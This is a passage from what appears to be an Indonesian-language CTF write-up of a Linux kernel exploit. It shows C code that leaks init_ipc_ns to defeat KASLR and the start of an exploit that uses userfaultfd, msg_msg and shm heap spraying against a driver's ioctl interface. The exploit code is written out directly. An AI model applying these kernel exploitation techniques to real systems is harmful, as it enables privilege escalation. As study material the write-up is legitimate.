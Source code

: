 ```c
    for(int i=0;i < 0x1400 / 8;i++){
        printf("0x%04x: 0x%016lx\n" ,i , *(unsigned long*)(recv + i * 8));
        if((*(unsigned long *)(recv + i * 8) & 0xffff) == 0x5540){
            init_ipc_ns = *(unsigned long *)(recv + i * 8);
            break;
        }
    }

    kbase = init_ipc_ns - (0xffffffff81e15540 - 0xffffffff81000000);

    printf("init_ipc_ns: 0x%016lx\n" ,init_pc_ns);
    printf("kernel base: 0x%016lx\n" ,kbase);


```

ini kode lengkapnya:

```c

#define _GNU_SOURCE
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>
#include<fcntl.h>
#include<string.h>
#include<pthread.h>
#include<linux/userfaultfd.h>
#include<sys/ioctl.h>
#include<sys/stat.h>
#include<sys/msg.h>
#include<sys/mman.h>
#include<sys/shm.h>

#define ADD 0xdead0001
#define DEL 0xdead0002
#define LOAD 0xdead0004
#define STORE 0xdead0003
#define SHM_SPRAY 30
#define PAGE 0x1000
int fd;
struct{
   int size;
   char *note;
}cmd;

typedef struct{
    int mtype;
    char mtext[1];
}msg_t;

typedef struct{
    void *m_next;
    void *m_prev;
    size_t size;
    int m_type;
    void *next;
    void *security;
}msg_evil;

int new(int size) {
  cmd.size = size; cmd.note = NULL;
  return ioctl(fd, 0xdead0001, &cmd);
}
```